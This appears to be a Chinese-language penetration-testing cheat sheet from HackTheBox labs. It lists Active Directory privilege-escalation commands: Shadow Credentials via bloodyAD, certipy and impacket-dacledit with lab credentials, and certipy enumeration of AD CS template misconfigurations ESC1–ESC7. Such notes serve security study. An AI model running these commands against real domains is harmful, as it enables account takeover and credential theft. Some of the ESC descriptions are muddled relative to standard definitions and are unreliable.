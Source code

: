 
###  Shadow Credentials 
攻擊條件:\
`GenericAll` or `GenericWrite` or `WriteOwner`
- 將自己加入該群組
`bloodyAD --host '10.10.11.69' -d 'dc01.fluffy.htb' -u 'p.agila' -p 'prometheusx-303'  add groupMember 'SERVICE ACCOUNTS' p.agila`
- 取得 Kerberos TGT 與 NTLM Hash (target: `ca_svc`)
`certipy shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51`
- 更改 Object Owner (target: `ca_svc`)
`bloodyAD -d sequel.htb --dc-ip 10.10.11.51 -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'`
- 操控 DACL → 取得完整控制權
`impacket-dacledit -action write -principal ryan -target ca_svc -dc-ip 10.10.11.51 sequel.htb/ryan:WqSZAF6CysDQbGb3`
- 再次嘗試 Shadow Credentials Attack
`certipy shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51`
### AD CS template vul
Wiki: [ly4k/Certipy](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
```
# ESC1–8
certipy find -u user@domain.local -p Passw0rd -vulnerable
certipy find -u user@domain.local -hases Passw0rd -vulnerable
```
#### 1. ESC1 - Enrollment Rights Misconfiguration
條件：低權限使用者可以 Enroll 一個高權限模板 (ex. Domain Admins 可用)。

#### 2. ESC2 - Dangerous EKU (Enrollment Agent)
條件：某模板允許申請「Enrollment Agent」憑證，導致能簽別人的憑證\
確認：在 template 權限裡找 `Certificate Request Agent` EKU

#### 3. ESC3 - Any Purpose EKU
條件：模板允許 Any Purpose EKU，等於可以冒充任何服務\
確認：在模板 EKU 欄位中找到 `Any Purpose`

#### 4. ESC4 - No Security Extension
條件：模板允許你發證書，但沒有安全約束 (沒有指定 EKU)\
確認：看模板 EKU 是否為空。
- [ESC4](https://hackmd.io/@CHW/r1X0wjUC1e#10-AD-CS-template-vul%EF%BC%88ESC4%EF%BC%89)

#### 5. ESC5 - Certificate Request Agent Abuse
條件：你能拿到一張 Enrollment Agent 憑證，並用它幫高權限帳號申請憑證\
確認：看誰能使用 `Certificate Request Agent` 模板，並檢查你是否能申請

#### 6. ESC6 - NTAuth Store Misconfig
條件：NTAuth Store 中包含弱 CA，導致憑證信任錯誤配置\
確認：`certutil -dump` 看 NTAuth 內容，檢查是否包含非企業 CA

#### 7. ESC7 - Vulnerable Certificate Authority Access Control
條件：對 CA 本身有危險權限（如 ManageCA, ManageCertificates）\
確認：
`certipy ca -u user@domain.local -p Passw0rd -dc-ip <ip>`
看是否有敏感 ACL 權限
